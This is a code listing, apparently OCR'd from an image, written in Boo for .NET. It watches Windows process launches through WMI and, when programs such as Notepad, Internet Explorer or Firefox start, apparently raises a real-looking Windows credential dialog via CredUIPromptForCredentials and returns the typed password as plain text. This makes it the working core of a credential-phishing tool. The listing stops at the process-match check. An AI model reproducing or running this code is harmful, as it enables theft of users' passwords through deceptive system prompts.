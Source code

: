 ```python
    USERNAME_TARGET_CREDENTIALS = 0x80000
    KEEP_USERNAME = 0x100000

[DllImport("credui.dll")]
def CredUIPromptForCredentials(creditUR as CREDUI_INFO,
        targetName as string,
        reserved1 as IntPtr,
        iError as int,
        userName as StringBuilder,
        maxUserName as int,
        password as StringBuilder,
        maxPassword as int,
        pfSave as bool,
        flags as CREDUI_FLAGS) as CredUIReturnCodes:
        pass

struct CREDUI_INFO:
    public cbSize as int
    public hbmBanner as IntPtr
    public hwndParent as IntPtr
    public pszCaptionText as string
    public pszMessageText as string

def PromptForPassword(user as string, process as string) as string:
    userPassword as StringBuilder = StringBuilder()
    userID as StringBuilder = StringBuilder(user)
    credUI as CREDUI_INFO = CREDUI_INFO()
    credUI.cbSize = Marshal.SizeOf(credUI)
    save as bool = false
    flags as CREDUI_FLAGS = CREDUI_FLAGS.ALWAYS_SHOW_UI | CREDUI_FLAGS.GENERIC_CREDENTIALS

    CredUIPromptForCredentials(credUI, process, IntPtr.Zero, 0, userID, 100, userPassword, 100, save, flags)
    
    return userPassword.ToString()

[STAThread]
def Main(argv as (string)):
    _validatingPassword = false
    validPassword as string
    processes_to_watch as List = ['notepad.exe', 'iexplorer.exe', 'firefox.exe',] 
    
    currentUser as string = System.Security.Principal.WindowsIdentity.GetCurrent().Name

    startWatch as ManagementEventWatcher = ManagementEventWatcher(WqlEventQuery('__InstanceCreationEvent',
                                                                                TimeSpan(0,0,1),
                                                                                'TargetInstance isa "Win32_Process"'))
    startWatch.Start()
    print "[*] WATCHER STARTED"
    
    while true:
        if _validatingPassword:
            continue
        print "[*] WAITING FOR THE NEXT EVENT..."
        process as ManagementBaseObject = startWatch.WaitForNextEvent()
        print "[*] EVENT CAPTURED!"
        instance = process['TargetInstance'] as ManagementBaseObject
        name as string = instance['Name']
        id = instance['ProcessId']
        
        if name in processes_to_watch:
```